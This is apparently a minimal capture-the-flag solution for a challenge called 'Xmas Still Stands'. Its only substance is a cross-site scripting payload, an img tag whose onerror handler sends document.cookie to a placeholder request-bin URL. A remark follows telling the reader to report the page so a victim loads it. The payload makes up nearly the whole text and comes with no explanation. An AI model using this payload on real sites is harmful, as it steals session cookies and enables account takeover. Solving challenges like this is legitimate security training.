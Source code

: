 # Xmas Still Stands

```text
<img src=x onerror=fetch("requestbinurl?cookie="+document.cookie)>
```

Report that, bam ez

